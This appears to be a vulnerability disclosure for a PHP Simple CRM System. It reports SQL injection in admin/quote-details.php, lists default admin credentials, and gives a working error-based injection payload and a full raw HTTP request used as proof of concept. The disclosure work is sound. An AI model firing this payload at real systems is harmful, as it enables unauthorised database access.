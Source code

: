 # Simple Customer Relationship Management (CRM) System has SQLI in /php-scrm/admin/quote-details.php
Author:Top-Zxp

vendors:https://www.sourcecodester.com/php/15895/simple-customer-relationship-management-crm-system-using-php-free-source-coude.html

## How to Run?

### Requirements

-   Download and Install any local web server such as XAMPP.
-   Download the provided source code zip file. (download button is located below)

### System Installation/Setup

-   Open your XAMPP Control Panel and start Apache and MySQL.
-   Extract the downloaded source code zip file.
-   Copy the extracted source code folder and paste it into the XAMPP's "htdocs" directory.
-   Browse the PHPMyAdmin in a browser. i.e. http://localhost/phpmyadmin
-   Create a new database named scrm_db.
-   Import the provided SQL file. The file is known as scrm_db.sql located inside the database folder.
-   Browse the Simple Customer Relationship Management (CRM) System in a browser. i.e. http://localhost/php-scrm/.

### Admin Default Access:

-   Username: admin
-   Password: admin123

## Payload
database:scrm_db

[+] Payload:php-scrm/admin/quote-details.php?1' and (select count(*) from information_schema.tables group by concat(0x7e,(select database()),0x7e ,floor(rand(0)*2))) --+

GET /php-scrm/admin/quote-details.php?id=1' and (select count(*) from information_schema.tables group by concat(0x7e,(select database()),0x7e ,floor(rand(0)*2))) --+ HTTP/1.1
Host: 192.168.248.137
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.248.137/php-scrm/admin/quote-details.php?id=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=lf9l068kt6hkbqhcettmhr0o3p
Connection: close

![image](https://user-images.githubusercontent.com/124124632/215972647-2875ff8f-64d2-458a-b7c9-6756a18fc63b.png)

![image](https://user-images.githubusercontent.com/124124632/215967081-89144946-7652-4412-a0cd-cecbcfaa0007.png)
